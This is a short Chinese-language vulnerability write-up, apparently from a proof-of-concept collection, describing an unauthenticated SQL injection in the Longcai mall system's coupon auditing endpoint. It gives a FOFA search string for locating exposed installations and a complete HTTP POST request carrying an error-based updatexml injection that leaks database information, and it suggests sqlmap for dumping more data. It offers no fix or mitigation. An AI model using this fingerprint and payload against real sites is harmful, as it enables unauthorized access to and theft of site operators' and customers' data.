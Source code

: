 # 龙采商城系统新人礼包权限开关处存在未授权SQL注入

### 一、漏洞描述
龙采科技集团有限责任公司龙采商城系统新人礼包权限开关处存在未授权SQL注入，可直接无需登录后台即可暴露出数据库敏感信息。

### 二、影响版本
龙采商城系统

### 三、资产测绘
FOFA：body="'url':'/pc2.0/index/index'"

界面框架大致如下：

![1715913715272-6b2b1541-925a-4122-a1c1-739f56e008d1.png](./img/-LguuObqFJEiyiS4/1715913715272-6b2b1541-925a-4122-a1c1-739f56e008d1-967924.png)

### 四、漏洞复现
```plain
POST /coupon/auditing HTTP/1.1
Host: xxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 60
Connection: close

id=1%20and%20updatexml(1,concat(0x7e,database(),0x7e),1)


```

使用burp请求POC即可暴出敏感数据库（也可以采用sqlmap跑出大量敏感信息）

![1715913259926-c5a808ea-5281-4129-abb9-f358ef824dab.png](./img/-LguuObqFJEiyiS4/1715913259926-c5a808ea-5281-4129-abb9-f358ef824dab-585388.png)



> 更新: 2024-06-01 11:14:23  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ohz4lxse6x8dctsn>